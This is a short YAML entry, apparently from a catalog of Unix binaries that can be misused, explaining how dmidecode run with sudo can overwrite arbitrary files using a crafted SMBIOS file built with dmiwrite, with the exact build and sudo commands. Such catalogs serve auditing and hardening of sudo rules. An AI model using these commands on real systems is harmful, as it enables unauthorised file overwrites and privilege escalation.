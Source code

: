 ```yaml
---
functions:
  sudo:
    - description: |
        It can be used to overwrite files using a specially crafted SMBIOS file that can be read as a memory device by dmidecode. 
        Generate the file with [dmiwrite](https://github.com/adamreiser/dmiwrite) and upload it to the target.
          --dump-bin, Will cause dmidecode to write the payload to the destination specified, prepended with 32 null bytes.
          --no-sysfs, If the target system is using an older version of dmidecode, you may need to omit the option.
        ```
        make dmiwrite
        TF=$(mktemp)
        printf "\nDATA" > $TF
        ./dmiwrite $TF x.dmi
        ```
      code: |
        LFILE=file_to_write
        sudo dmidecode --no-sysfs -d x.dmi --dump-bin "$LFILE"
---
```

